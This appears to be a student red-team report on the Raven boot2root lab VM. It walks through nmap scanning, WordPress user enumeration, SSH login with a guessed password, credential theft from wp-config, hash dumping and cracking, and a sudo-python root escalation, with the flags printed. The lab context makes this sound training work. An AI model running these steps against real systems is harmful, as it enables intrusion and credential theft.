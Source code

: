 # Red Team: Summary of Operations

### Exposed Services and Exploitation

Nmap scan results for each machine reveal the below services and OS details:

First I performed a port scan using `nmap`:

nmap -Pn 192.168.1.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-28 15:15 PST
Nmap scan report for 192.168.1.1
Host is up (0.00056s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2179/tcp open  vmrdp
3389/tcp open  ms-wbt-server
MAC Address: 00:15:5D:00:04:0D (Microsoft)

Nmap scan report for 192.168.1.100
Host is up (0.00085s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
9200/tcp open  wap-wsp
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)

Nmap scan report for 192.168.1.105
Host is up (0.00089s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:15:5D:00:04:0F (Microsoft)

Nmap scan report for 192.168.1.110
Host is up (0.0011s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:15:5D:00:04:10 (Microsoft)

Nmap scan report for 192.168.1.115
Host is up (0.00069s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:15:5D:00:04:11 (Microsoft)

Nmap scan report for 192.168.1.90
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (6 hosts up) scanned in 6.74 seconds

Then I delved more fully into two machines in particular to gather exposed services:

nmap -sV 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00053s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

nmap -sV 192.168.1.115
Nmap scan report for 192.168.1.115
Host is up (0.00057s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration

    The team was able to use a Wordpress scan to enumerate the users using the command:

    `wpscan --url http://192.168.1.110 --enumerate u`

    Results of the scan identified two users:

    34m[i][0m User(s) Identified:

    [32m[+][0m steven
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

    [32m[+][0m michael
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)

  - Weak password

    Attackers were then easily able to `ssh` into the target by guessing the weak password of user `michael`, which was "michael".

    ssh michael@192.168.1.110    
    michael@192.168.1.110's password:

    michael@target1:~$ ls

    Attackers were then able to use `grep` to find "flag1" inside of /var/www/html/service.html:

    cat /var/www/html/service.html:			<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->

    Found flag2 the same way.  Traversed the file system and found inside the /var/www directory.

    michael@target1:~$ cat /var/www/flag2.txt
    flag2{fc3fd58dcdad9ab23faca6e9a36e581c}

  - Insecure password

    As the attackers were further searching the system, found credentials for the Wordpress database inside of /var/www/html/wp_config.php:

    /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress');

    /** MySQL database username */
    define('DB_USER', 'root');

    /** MySQL database password */
    define('DB_PASSWORD', 'R@v3nSecurity');

    Used those credentials to get into the Wordpress database and find flag3:

    michael@target1:~$ mysql -u root -p wordpress
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 42
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use wordpress;
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

select * from wp_posts;

| 2018-08-13 01:48:31 | 0000-00-00 00:00:00 | flag3{afc01ab56b50591e7dccf93122770cd2}

And was able to find additional users hashes in wp_users.

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name   |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+
|  1 | michael    | $P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0 | michael       | michael@raven.org |          | 2018-08-12 22:49:12 |                     |           0 | michael        |
|  2 | steven     | $P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/ | steven        | steven@raven.org  |          | 2018-08-12 23:31:16 |                     |           0 | Steven Seagull |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+----------------+

  - Privilege escalation

Was able to use 'john' to crack the password for Steven (pink84), and then use that to escalate privileges and fine flag4:

michael@target1:~$ su - steven
Password:
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'        
root@target1:/home/steven# cd /root
root@target1:~# ls
flag4.txt
root@target1:~# cat flag4.txt
______                      

| ___ \                    

| |_/ /__ ___   _____ _ __  

|    // _` \ \ / / _ \ '_ \

| |\ \ (_| |\ V /  __/ | | |

\_| \_\__,_| \_/ \___|_| |_|


flag4{715dea6c055b9fe3337544932f2941ce}

CONGRATULATIONS on successfully rooting Raven!

This is my first Boot2Root VM - I hope you enjoyed it.

Hit me up on Twitter and let me know what you thought:

@mccannwj / wjmccann.github.io

